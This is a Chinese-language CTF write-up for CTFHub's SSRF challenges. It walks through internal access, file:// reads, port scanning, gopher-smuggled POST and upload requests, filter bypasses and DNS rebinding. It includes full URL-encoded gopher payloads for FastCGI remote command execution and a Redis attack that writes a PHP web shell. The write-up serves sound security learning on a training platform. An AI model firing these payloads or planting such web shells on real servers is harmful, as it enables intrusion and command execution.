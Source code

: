 ```yaml
---
# 这是页面的图标
icon: token
# 这是文章的标题
title: CTFHub-SSRF-Writeup
# 设置作者
author: lhz
# 设置写作时间
time: 2021-08-24
# 一个页面只能有一个分类
category: CTF
# 一个页面可以有多个标签
tag:
  - writeup
  - ctfhub
  - ssrf

comment: false
typora-root-url: ..\..\..\..\.vuepress\public
---
```


## SSRF
  ![ssrf](/assets/img/ctf/ssrf.png)
### 内网访问
  直接构造访问请求,获取flag
  ```
  /?url=127.0.0.1/flag.php
  ```
### 伪协议读取文件
  根据题目提示使用file://协议，尝试一般web目录/var/www/html/  
  ![file](/assets/img/ctf/file.png)
### 端口扫描
  提示端口范围8000到9000
  ```url
  /?url=127.0.0.1:8000
  ```
  使用burpsuite对端口进行爆破，即可得到端口，访问获取flag
### POST请求  
  访问/?url=127.0.0.1/flag.ph,返回页面  
  ![post1](/assets/img/ctf/post1.png)  
  包含一个form和隐藏的key，推测需要在form中提交key，F12添加提交按钮  

  ```
  <input type="submit" name="sbumit">
  ```
  ![post3](/assets/img/ctf/post3.png)  
  在页面上提交key，页面返回"Just View From 127.0.0.1"  
  ![post5](/assets/img/ctf/post5.png)  
  可见需要通过SSRF提交请求，构造POST请求
  ```
    POST /flag.php HTTP/1.1
    Host: 127.0.0.1:80
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 36

    key=99cb8729f8a7ba5dcaa367dc092c2f2c
  ```
  因为通过SSRF，需要进行两次请求，所以对请求数据进行2次url编码，注意使用CRLF，第一次url编码后需要将%0A替换为%0D%0A,最后得到请求数据  
  ```
    POST%2520/flag.php%2520HTTP/1.1%250D%250AHost%253A%2520127.0.0.1%253A80%250D%250AContent-Type%253A%2520application/x-www-form-urlencoded%250D%250AContent-Length%253A%252036%250D%250A%250D%250Akey%253D99cb8729f8a7ba5dcaa367dc092c2f2c
  ```
  使用gopher发送请求，gopher协议是SSRF中常用的一个协议：
  ```url
  gopher://IP:port/_{TCP/IP数据流}
  ```
​    得到flag   
​    ![post4](/assets/img/ctf/post4.png)

### 文件上传
  使用file协议查看flag.php，代码检查了上传ip和文件大小，所以需要从127.0.0.1上传非空文件
  ```php html
  <?php
  error_reporting(0);
  if($_SERVER["REMOTE_ADDR"] != "127.0.0.1"){
      echo "Just View From 127.0.0.1";
      return;
  }
  if(isset($_FILES["file"]) && $_FILES["file"]["size"] > 0){
      echo getenv("CTFHUB");
      exit;
  }
  ?>
  Upload Webshell
  <form action="/flag.php" method="post" enctype="multipart/form-data">
      <input type="file" name="file">
  </form>
  ```

  访问`/?url=127.0.0.1/flag.php`，返回一个文件上传form，根据题意需要提交文件获取flag，F12添加提交按钮  
  ![upload1](/assets/img/ctf/upload1.png)  
  提交一个随意非空文件，抓取上传数据包，修改host为127.0.0.1:80  
  ![upload2](/assets/img/ctf/upload2.png)  
  对上传数据进行二次url编码，注意第一次编码后将%0A替换为%0D%0A，得到编码后的请求数据  

  ```
  POST%2520%252Fflag.php%2520HTTP%252F1.1%250D%250AHost%253A%2520127.0.0.1%253A80%250D%250AContent-Length%253A%2520280%250D%250ACache-Control%253A%2520max-age%253D0%250D%250AUpgrade-Insecure-Requests%253A%25201%250D%250AOrigin%253A%2520http%253A%252F%252Fchallenge-426ad735267eb08d.sandbox.ctfhub.com%253A10800%250D%250AContent-Type%253A%2520multipart%252Fform-data%253B%2520boundary%253D----WebKitFormBoundaryM9A8PenlAkNIPrWa%250D%250AUser-Agent%253A%2520Mozilla%252F5.0%2520(Windows%2520NT%252010.0%253B%2520Win64%253B%2520x64)%2520AppleWebKit%252F537.36%2520(KHTML%252C%2520like%2520Gecko)%2520Chrome%252F92.0.4515.159%2520Safari%252F537.36%250D%250AAccept%253A%2520text%252Fhtml%252Capplication%252Fxhtml%252Bxml%252Capplication%252Fxml%253Bq%253D0.9%252Cimage%252Favif%252Cimage%252Fwebp%252Cimage%252Fapng%252C*%252F*%253Bq%253D0.8%252Capplication%252Fsigned-exchange%253Bv%253Db3%253Bq%253D0.9%250D%250AReferer%253A%2520http%253A%252F%252Fchallenge-426ad735267eb08d.sandbox.ctfhub.com%253A10800%252F%253Furl%253D127.0.0.1%252Fflag.php%250D%250AAccept-Language%253A%2520zh-CN%252Czh%253Bq%253D0.9%250D%250ACookie%253A%2520UM_distinctid%253D17b2f471020f2e-06f3628e7e7e6e-4343363-1fa400-17b2f47102110f5%250D%250AConnection%253A%2520close%250D%250A%250D%250A------WebKitFormBoundaryM9A8PenlAkNIPrWa%250D%250AContent-Disposition%253A%2520form-data%253B%2520name%253D%2522file%2522%253B%2520filename%253D%2522123.txt%2522%250D%250AContent-Type%253A%2520text%252Fplain%250D%250A%250D%250A123%250D%250A------WebKitFormBoundaryM9A8PenlAkNIPrWa%250D%250AContent-Disposition%253A%2520form-data%253B%2520name%253D%2522123%2522%250D%250A%250D%250A%25C3%25A6%25C2%258F%25C2%2590%25C3%25A4%25C2%25BA%25C2%25A4%250D%250A------WebKitFormBoundaryM9A8PenlAkNIPrWa--
  ```
  使用gopher发送请求，得到flag  
  ![upload3](/assets/img/ctf/upload3.png)
### FastCGI协议
  [fastcgi相关介绍](https://blog.csdn.net/mysteryflower/article/details/94386461)  
  [gopher payload工具](https://github.com/tarunkant/Gopherus)  
  使用gopherus工具生成payload，运行命令`ls /`  
  ![fastcgi1](/assets/img/ctf/fastcgi1.png)   
  进行url编码后得到提交payload  
  ```url
  gopher%3A%2F%2F127.0.0.1%3A9000%2F_%2501%2501%2500%2501%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%2500%2501%2501%2504%2504%2500%250F%2510SERVER_SOFTWAREgo%2520%2F%2520fcgiclient%2520%250B%2509REMOTE_ADDR127.0.0.1%250F%2508SERVER_PROTOCOLHTTP%2F1.1%250E%2502CONTENT_LENGTH56%250E%2504REQUEST_METHODPOST%2509KPHP_VALUEallow_url_include%2520%253D%2520On%250Adisable_functions%2520%253D%2520%250Aauto_prepend_file%2520%253D%2520php%253A%2F%2Finput%250F%2517SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Findex.php%250D%2501DOCUMENT_ROOT%2F%2500%2500%2500%2500%2501%2504%2500%2501%2500%2500%2500%2500%2501%2505%2500%2501%25008%2504%2500%253C%253Fphp%2520system%2528%2527ls%2520%2F%2527%2529%253Bdie%2528%2527-----Made-by-SpyD3r-----%250A%2527%2529%253B%253F%253E%2500%2500%2500%2500
  ```
  发送请求，获取`/`下目录情况,发现flag文件  
  ![fastcgi2](/assets/img/ctf/fastcgi2.png)    
  使用gopherus工具生成payload，运行命令`cat /flag_14e0ba551d369f7992793e0b62395dc5`   
  ![fastcgi3](/assets/img/ctf/fastcgi3.png)   
  进行url编码后得到提交payload    
  ```url
  gopher%3A%2F%2F127.0.0.1%3A9000%2F_%2501%2501%2500%2501%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%2500%2501%2501%2504%2504%2500%250F%2510SERVER_SOFTWAREgo%2520%2F%2520fcgiclient%2520%250B%2509REMOTE_ADDR127.0.0.1%250F%2508SERVER_PROTOCOLHTTP%2F1.1%250E%2502CONTENT_LENGTH94%250E%2504REQUEST_METHODPOST%2509KPHP_VALUEallow_url_include%2520%253D%2520On%250Adisable_functions%2520%253D%2520%250Aauto_prepend_file%2520%253D%2520php%253A%2F%2Finput%250F%2517SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Findex.php%250D%2501DOCUMENT_ROOT%2F%2500%2500%2500%2500%2501%2504%2500%2501%2500%2500%2500%2500%2501%2505%2500%2501%2500%255E%2504%2500%253C%253Fphp%2520system%2528%2527cat%2520%2Fflag_14e0ba551d369f7992793e0b62395dc5%2527%2529%253Bdie%2528%2527-----Made-by-SpyD3r-----%250A%2527%2529%253B%253F%253E%2500%2500%2500%2500
  ```
  发送请求，获得flag  
  ![fastcgi4](/assets/img/ctf/fastcgi4.png)

### Redis协议
  [浅析Redis中SSRF的利用](https://xz.aliyun.com/t/5665)  
  redis写shell命令如下
  ```shell
  flushall
  set 1 '<?php eval($_GET["feng"]);?>'
  config set dir /var/www/html
  config set dbfilename feng.php
  save
  ```
  使用gopherus工具生成redis攻击payload  
  ![redis1](/assets/img/ctf/redis1.png)  
  进行url编码得到请求payload
  ```
  gopher%3A%2F%2F127.0.0.1%3A6379%2F_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A1%250D%250A%252434%250D%250A%250A%250A%253C%253Fphp%2520system%2528%2524_GET%255B%2527cmd%2527%255D%2529%253B%2520%253F%253E%250A%250A%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%252413%250D%250A%2Fvar%2Fwww%2Fhtml%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%25249%250D%250Ashell.php%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A%250A
  ```
  请求后生成一句话shell.php文件，利用参数cmd，构造请求`/shell.php?cmd=ls%20/`  
  ![redis2](/assets/img/ctf/redis2.png)  
  获取flag文件，再构造请求`/shell.php?cmd=cat%20/flag_1d41ab57dcc1507d5d99e103cdca52da`,获得flag  
  ![redis3](/assets/img/ctf/redis3.png)  
### URL Bypasss
  访问地址提示"start with `http://notfound.ctfhub.com`", 所以需要以`http://notfound.ctfhub.com`开头，构造访问url如下获取flag
  ```url
  /?url=http://notfound.ctfhub.com@127.0.0.1/flag.php
  ```
### 数字IP Bypass
  题目提示ban掉了127以及172.不能使用点分十进制的IP，但是又要访问127.0.0.1
  - 方法一：  
    使用localhost代替127.0.0.1,构造请求url如下，获取flag
  ```url
  /?url=http://localhost/flag.php
  ```
  - 方法二:  
    将127.0.0.1转换为16进制0x7F000001,构造请求url如下，获取flag
  ```url
  /?url=http://0x7F000001/flag.php
  ```

### 302跳转 Bypass
  题目提示过滤了127.0.0.1，使用[数字IP Bypass](#数字ip-bypass)可以绕过，但是题意是使用302跳转绕过，可以生成短链接302跳转获得flag,  [短链接生成网站](https://my5353.com/)  
  ![短链接访问](/assets/img/ctf/302.png)
### DNS重绑定
  [DNS重绑定漏洞](https://zhuanlan.zhihu.com/p/89426041)  
  使用file://协议查看flag.php查看代码发现过滤了`/127|172|10|192/`开头，可以用16进制方式绕过，但是考虑到题目要求使用DNS重绑定  
  使用[rbndr.us dns rebinding service](https://lock.cmpxchg8b.com/rebinder.html)获取域名  
  ![dns1](/assets/img/ctf/dns1.png)  
  访问或取flag  
  ![dns2](/assets/img/ctf/dns2.png)

